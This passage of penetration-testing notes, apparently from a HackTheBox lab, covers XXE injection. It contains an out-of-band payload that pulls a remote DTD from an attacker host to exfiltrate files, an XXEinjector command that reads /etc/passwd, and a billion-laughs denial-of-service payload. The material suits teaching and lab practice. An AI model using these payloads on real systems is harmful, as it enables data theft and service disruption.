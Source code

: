 ``` bash
```
- Send request to the target
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Data retrieved on the Response on the PHP server
``` TXT
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 Closing
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50466 Accepted
[Mon Nov 11 22:04:06 2024] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```
#### Automated
- [XXEinjector](https://github.com/enjoiz/XXEinjector)
- Copy the HTTP request from Burp and write it to a file for the tool to use. 
- Don't include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:
``` HTTP
POST /blind/submitDetails.php HTTP/1.1
[Headers_SNIP]....

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- run the tool
``` bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
* All exfiltrated files get stored in the Logs folder under the tool `cat Logs/10.129.201.94/etc/passwd.log`
---
# DOS
Common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:
``` XML
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
```